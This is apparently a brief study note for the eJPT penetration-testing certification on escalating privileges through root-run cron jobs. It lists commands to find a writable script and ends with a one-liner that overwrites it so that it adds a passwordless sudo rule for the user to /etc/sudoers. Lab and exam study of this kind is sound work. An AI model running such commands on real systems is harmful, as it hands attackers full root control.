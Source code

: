 Tags: #template 
Related to: #note-taking, #notes
See also: 
Index: [[📁EJPTv2 - INDEX]]

Cron - time based task scheduler

We will target cron jobs that are configured to run as root


crontab -l  - cronjobs configured for that user

grep -rnw /usr -e "/home/student/mesage"

 printf '#/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh


